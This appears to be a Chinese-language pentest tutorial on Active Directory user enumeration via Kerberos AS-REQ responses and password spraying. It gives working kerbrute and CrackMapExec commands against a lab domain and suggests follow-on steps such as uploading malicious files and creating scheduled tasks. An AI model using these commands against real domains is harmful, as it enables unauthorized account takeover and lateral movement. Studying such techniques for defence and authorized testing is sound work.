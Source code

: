 但是当我们用非域用户进行登录时，是不能使用"net user /domain"这条命令的。

或者当主机不在域内但是能与域控通信时，以上两种情况我们可以通过以下方法对 域内用户进行枚举。

*Kerberos*本身是一种基于身份认证的协议，在Kerberos协议认证的*第一阶段*AS-REQ ，当用户不存
在时，返回包提示错误。当用户名存在，密码正确和密码错误时，AS-REP的返回包不一样。所以可以
利用这点，对域内进行域用户枚举和密码喷洒攻击。在AS-REQ阶段客户端向AS发送用户名，AS对用
户名进行验证，*用户存在和不存在返回的数据包不一样*，所以，*根据AS的返回包来对域用户进行枚举*

![image-20230307145202908](https://img.gyxnb.top/img/image-20230307145202908.png)

## 枚举工具介绍

### kerbrute工具

kerbrute工具链接：https://github.com/ropnop/kerbrute

```
kerbrute.exe userenum --dc 域控ip -d 域名 用户名字典.txt

c:\users\mb\desktop\kerbrute.exe userenum --dc 192.168.70.16 -d hack.com c:\users\mb\desktop\1.txt
```

![image-20230307145520237](https://img.gyxnb.top/img/image-20230307145520237.png)

## 密码喷洒攻击原理

在确认用户存在后，客户端又会发送-一个AS-REQ请求，如果密码正确，则返回AS-REP。 否则返回KRB5KDC_ ERP PREAUTH_ FAILED,

在常规的爆破中，我们都是先用很多密码去碰撞一个账号，这样很容易导致账号被锁定。而密码喷洒就是先用*一个密码去碰撞很多账号*，此方法能有效的避免账号被锁定的问题

### kerbrute工具

```
c:\users\mb\desktop\kerbrute.exe passwordspray -d hack.com c:\users\mb\desktop\1.txt admin@123
```

![image-20230307195737495](https://img.gyxnb.top/img/image-20230307195737495.png)

然后跟破解出账号和密码的账号进行远程桌面或ipc链接，上传恶意文件，写计划任务，服务等操作

### CrackMapExec

CrackMapExec (又名CME)是一款非常好用的密码喷洒攻击的工具，在*Kali Linux*默认已经安装
好。
下载地址: https://github.com/byt3bl33d3r/CrackMapExec

```
crackmapexec smb 192.168.70.16 -u 1.txt -p 'admin@123' --continue-on-success
```

![image-20230307201555130](https://img.gyxnb.top/img/image-20230307201555130.png)

### DomainPasswordSpray.ps1

